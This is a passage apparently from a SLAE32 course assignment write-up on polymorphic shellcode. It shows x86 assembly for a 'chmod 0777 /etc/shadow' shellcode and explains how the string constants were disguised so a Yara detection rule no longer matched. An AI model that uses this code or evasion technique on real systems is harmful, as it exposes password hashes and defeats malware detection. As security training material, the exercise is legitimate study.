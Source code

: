 The y1 to y3 strings correspond to the instruction for the setting of the "/etc/shadow":
    
    mov esi, 0x563a1f3e
    add esi, 0x21354523
    mov dword [esp-4], esi
    mov dword [esp-8], 0x68732f2f
    mov dword [esp-12], 0x6374652f

The Yara rule effectively detected our shellcode:

<img src="/assets/slae32-img/assignment6/assignment6.16.PNG" alt="drawing" style="width:900px;"/> 

Then, we modified our strings to bypass the Yara rule.

Modifications to bypass the ""/etc/shadow"" condition:

    mov esi, 0x6374ef32 
    add esi, 0x13FA752F ;0x776F6461
    mov dword [esp-4], esi
    sub esi, 0xefc3532
    mov dword [esp-8], esi ; 0x68732f2f
    mov dword [esp-12], 0x6374652f

As we can see, our modification succeded to bypass the yara rule.

<img src="/assets/slae32-img/assignment6/assignment6.17.PNG" alt="drawing" style="width:900px;"/> 

***Shellcode Length details***
- Length of the original shellcode: 49 bytes
- Length of the modified shellcode: 52 bytes
- Percentage length of the modified shellcode from the original: 106%


**Original shellcode:**

    ; Title:    chmod 0777 /etc/shadow (a bit obfuscated) Shellcode - 51 Bytes
    ; Platform: linux/x86
    ; Date:     2014-06-22
    ; Author:   Osanda Malith Jayathissa (@OsandaMalith)

    section .text
    global _start
